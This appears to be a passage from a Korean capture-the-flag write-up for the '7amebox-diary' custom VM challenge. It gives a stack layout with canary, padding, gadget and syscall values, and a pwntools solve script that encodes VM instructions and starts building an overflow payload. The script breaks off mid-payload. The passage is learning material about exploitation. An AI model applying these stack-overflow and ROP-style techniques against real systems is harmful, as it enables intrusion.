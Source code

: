------------esp---------------

\| 쓰레기 값 \| canary \| "A" * 9 \| pr2_pr1_pr0_ret \| 0x7 \| 0xf5000 \| 0x4 \| syscall (0x625) \| canary \| "A" * 9 \| pr2_pr1_pr0_ret \| "AAA" \| 0x200 \| 0x7c000 \| 0x60f \| 0x7c000 + 5 \|


# 풀이 
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/round2/7amebox-diary/vm_diary.py"

def write_tri(data):

        buf=[0 for i in range(3)]

        buf[0] = chr(data  & 0b000000000000001111111)
        buf[1] = chr((data & 0b111111100000000000000)>>14)
        buf[2] = chr((data & 0b000000011111110000000) >>7)
	return "".join(buf)

def read_tri(value):
	tri = 0
	tri |= ord(value[0])
	tri |= ord(value[1])  << 14
	tri |= ord(value[2])  << 7
	return tri

def write_diary(title,content,sec_key):
	p.recvuntil(">")
	p.sendline("2")
	p.recvuntil(">")
	p.sendline(title)
	p.recvuntil(">")
	p.sendline(content)
	time.sleep(0.1)
	p.sendline(sec_key)

def mov_reg_value(dreg,value):
	op=0x12
	opers=0x10*dreg

	return chr(op)+chr(opers)+write_tri(value)

def sys_call():
	op=0x20
	oper=0x0
	return chr(op)+chr(oper)

p=process(['python','-u',file_path])

stack=0xf4000
sub_0x27_ebp=0x1fe0+0xf4000-9
sub_0x27_ret=sub_0x27_ebp+3
canary_loc=sub_0x27_ebp-3

write_diary("merry_christmas","sungyun_","lonely~")
write_diary("happy_new_year","3ffr3s__","lonely~")

pay="A"*(0x59000-(0x3a000+0x4ec))
```